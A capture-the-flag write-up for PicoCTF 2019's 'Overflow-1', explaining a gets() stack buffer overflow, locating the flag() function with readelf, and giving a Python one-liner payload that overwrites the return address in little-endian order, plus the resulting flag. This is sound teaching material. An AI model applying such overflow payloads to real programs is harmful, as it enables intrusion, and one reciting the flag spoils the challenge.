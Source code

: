 # PicoCTF 2019 - Overflow-1
Author: PinkNoize

Binary Exploitation - 150

> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_2_305519bf80dcdebd46c8950854760999 on the shell server.

## TL;DR

The challenge provides a program with a classic buffer overflow and a function to print the flag. To solve, overwrite a return address with the address of the flag function.

# Writeup

As with the previous challenges, we `cd` to the specified directory and find a protected flag file, a vulnerable program and the source for the program.

```bash
user@pico-2019-shell1:~$ cd /problems/overflow-1_2_305519bf80dcdebd46c8950854760999
user@pico-2019-shell1:/problems/overflow-1_2_305519bf80dcdebd46c8950854760999$ ls -al
total 92
drwxr-xr-x   2 root       root          4096 Sep 28  2019 .
drwxr-x--x 684 root       root         69632 Oct 10  2019 ..
-r--r-----   1 hacksports overflow-1_2    42 Sep 28  2019 flag.txt
-rwxr-sr-x   1 hacksports overflow-1_2  7532 Sep 28  2019 vuln
-rw-rw-r--   1 hacksports hacksports     742 Sep 28  2019 vuln.c
```

After reading the source code we find a similar vulnerability as in the previous challenge, the use of the `gets()`.

```c
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}
```

As detailed in the description, we have to overflow `buf` and change the return address of `vuln()` to `flag()`. In the previous challenge, Overflow-0, we looked at the assembly to determine how far away the return address is from the buffer. This is time-consuming and unnecessary as we could repeat our target address a bunch and at some length we would overwrite the return address.

To start crafting this exploit we first need to know the address of the `flag()` function. We can find this by grepping the output of `readelf -s vuln`, which prints the symbol table of `vuln`.

```bash
user@pico-2019-shell1:/problems/overflow-1_2_305519bf80dcdebd46c8950854760999$ readelf -s vuln | grep flag
    74: 080485e6   121 FUNC    GLOBAL DEFAULT   14 flag
```

The address of the function is in the second column and is `0x080485e6`. Now we can craft our exploit by sending the program this address repeated a bunch of times. I chose 20 because 20*4 is bigger than 64 (the size of the buffer).

```bash
user@pico-2019-shell1:/problems/overflow-1_2_305519bf80dcdebd46c8950854760999$ python -c "print b'\x08\x04\x85\xe6'*20" | ./vuln 
Give me a string and lets see what happens: 
Woah, were jumping to 0xe6850408 !
Segmentation fault (core dumped)
```

Woah, the address we put was `0x080485e6` but for some reason it got `0xe6850408` which is the same address but reversed. This is due to the fact that x86 (the architecture these challenges are running on and probably your computer too) stores values in memory in ***little endian***. Little endian basically means that numbers and addresses are stored in memory in reverse order. Strings are still stored how you would expect them to be. This means that if we want `vuln()` to return to `0x080485e6`, we have to reverse the bytes to make them little endian.

```bash
user@pico-2019-shell1:/problems/overflow-1_2_305519bf80dcdebd46c8950854760999$ python -c "print b'\xe6\x85\x04\x08'*20" | ./vuln 
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a32b9368}Segmentation fault (core dumped)
```

Now that we reversed the bytes, the program returns to the `flag()` function and prints us the flag.